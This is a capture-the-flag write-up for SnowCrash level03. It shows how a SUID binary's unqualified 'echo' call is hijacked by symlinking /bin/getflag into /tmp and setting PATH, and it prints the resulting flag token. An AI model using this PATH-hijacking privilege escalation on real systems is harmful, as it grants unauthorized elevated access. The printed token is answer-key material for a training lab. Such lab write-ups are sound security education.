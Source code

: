 # Level03

In this level, we have an executable `level03`.  

```bash
level03@SnowCrash:~$ ls -la
...
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
...

level03@SnowCrash:~$ ./level03 
Exploit me
level03@SnowCrash:~$ ./level03 test
Exploit me
```

The bit `SUID` is set in this programm. So when it's execute, it is run as `flag03` instead of `level03`.  

Using `gdb` we can see the [code](./resources/main.c) assembly to understand it.  

```bash
0x080484f7 <+83>:	mov    DWORD PTR [esp],0x80485e0
0x080484fe <+90>:	call   0x80483b0 <system@plt>
...
(gdb) x/s 0x80485e0
0x80485e0:	 "/usr/bin/env echo Exploit me"
```

As the binary will be executed as `flag03` we can try to launch the command `getflag` to obtain the flag.  
We can override `echo` builtin by an another.  
To do this we must:


1. Create symbolic link in a folder in which we have permissions : `/tmp`
2. Change the `PATH` env variable  


```bash
level03@SnowCrash:~$ ln -sf /bin/getflag /tmp/echo
level03@SnowCrash:~$ PATH="/tmp" ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password: 
level04@SnowCrash:~$
```
